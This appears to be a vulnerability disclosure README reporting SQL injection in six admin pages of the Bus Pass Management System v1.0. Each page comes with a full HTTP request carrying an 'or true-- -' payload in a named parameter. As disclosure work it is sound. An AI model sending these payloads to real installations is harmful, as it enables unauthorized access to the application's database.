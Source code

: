 # Bus-Vulnerabilities

# Author:
Javier Carabantes:  [@javicarabantes](hthttps://twitter.com/javicarabantes).

## Short description
Multiple SQL injections detected in Bus Pass Management System Project v1.0


## Vulnerability description
Multiple files with different parameters were found where an SQL Injection vulnerability exists:

- buspassms/admin/view-enquiry.php
- buspassms/admin/pass-bwdates-reports-details.php
- buspassms/admin/changeimage.php
- buspassms/admin/search-pass.php
- buspassms/admin/edit-category-detail.php
- buspassms/admin/edit-pass-detail.php


## PoCs
A simple SQLi PoC is going to be executed on each URL: "or true-- -"


* File: buspassms/admin/view-enquiry.php **line 65**
```
vuln var: $vid
```

```
GET Request

GET /admin/view-enquiry.php?viewid=-1%20or%20true--%20- HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
![enquiry SQLi](doc/1.png)



_________________




* File: buspassms/admin/pass-bwdates-reports-details.php **line 80**
```
vuln var: $fdate and $tdate
```

```
POST Request:

POST /admin/pass-bwdates-reports-details.php HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:8083/admin/pass-bwdates-report.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://localhost:8083
DNT: 1
Connection: close
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Cache-Control: max-age=0

fromdate=2022-07-13&todate=2022-07-21'+or+true--+-&submit=
```
![betweendatesreport SQLi](doc/2.png)



_________________



* File:  buspassms/admin/changeimage.php **line 82**
```
vuln var: $eid
```

```
GET Request:

GET /admin/changeimage.php?editid=-1%20or%20true--%20- HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1

```

![Change image SQLi](doc/4.png)



_________________



* File:  buspassms/admin/search-pass.php **line 89**
```
vuln var: $sdata
```

```
POST Request:

POST /admin/search-pass.php HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://localhost:8083
DNT: 1
Connection: close
Referer: http://localhost:8083/admin/search-pass.php
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

searchdata=-1%27+or+true--+-&search=

```
![search pass SQLi](doc/5.png)

_________________



* File:  buspassms/admin/edit-category-detail.php **line 89**
```
vuln var: $eid
```

```
GET Request:

GET /admin/edit-category-detail.php?editid=-8%20or%20true--%20- HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
![EditCatDetail SQLi](doc/6.png)

_________________



* File:  buspassms/admin/edit-pass-detail.php **line 97**
```
vuln var: $eid
```

```
GET Request:

GET /admin/edit-pass-detail.php?editid=-1%20or%20true--%20- HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

![EditPassDetail SQLi](doc/7.png)